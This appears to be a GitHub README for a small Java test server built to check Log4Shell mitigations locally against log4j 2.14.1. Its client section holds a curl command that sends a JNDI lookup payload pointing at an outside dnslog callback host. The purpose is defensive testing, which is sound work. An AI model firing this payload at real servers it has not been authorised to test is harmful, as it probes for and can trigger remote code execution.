 # log4Jtest
## Description
Simple Java http server running on port 8000 that logs all request params so you can attempt to validate various mitigations you may have in place

## Running
### Java Side
To test you can just execute from the bin directory and specify the version of log4J you want, can grab log4j versions from https://archive.apache.org/dist/logging/log4j/
```
java -cp "scratchpad/log4jtest/webserver/bin:scratchpad/log4jtest/apache-log4j-2.14.1-bin/log4j-core-2.14.1.jar:scratchpad/log4jtest/apache-log4j-2.14.1-bin/log4j-api-2.14.1.jar" --enable-preview App
```
### Client Side
Can just use CURL to URL encode a test:
```
curl -G --data-urlencode "test=\${jndi:ldap://4jediz.dnslog.cn/testing}" http://localhost:8000/
```

## Example
<img alt="l4jtest" src="https://user-images.githubusercontent.com/1465995/145650929-6e0acf49-6a8e-4427-9b97-2e035fa145cd.png">

